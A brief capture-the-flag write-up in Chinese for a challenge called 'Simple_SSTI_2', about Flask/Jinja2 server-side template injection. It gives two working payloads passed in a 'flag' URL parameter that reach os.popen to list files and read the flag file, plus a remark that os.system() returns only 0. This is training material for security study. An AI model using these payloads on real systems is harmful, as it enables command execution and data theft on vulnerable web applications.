 # Simple_SSTI_2

## writeup

flask模板注入

```
?flag={{config.__class__.__init__.__globals__['os'].popen('ls').read()}}    # Dockerfile app.py flag gunicorn.conf.py templates 

?flag={{config.__class__.__init__.__globals__['os'].popen('cat flag').read()}}
```

PS: 不能用os.system()，因为永远返回0